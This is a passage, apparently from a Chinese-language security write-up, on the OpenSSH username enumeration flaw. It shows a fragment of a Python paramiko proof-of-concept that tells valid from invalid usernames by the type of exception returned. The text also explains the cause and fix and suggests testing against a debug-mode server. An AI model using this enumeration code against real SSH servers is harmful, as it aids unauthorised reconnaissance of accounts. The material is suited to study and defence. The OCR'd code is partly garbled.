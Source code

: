```
try:

transport.start_client()

except paramiko.ssh_exception.SSHException:

print ‘[-] Failed to negotiate SSH transport’

sys.exit(2) `try:

transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))

except InvalidUsername:

print ‘[*] Invalid username’

sys.exit(3)

except paramiko.ssh_exception.AuthenticationException:

print ‘[+] Valid username’` 
```

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：

![image](../img/e446e2e4796a659bb9416da2f4039dc8.png)
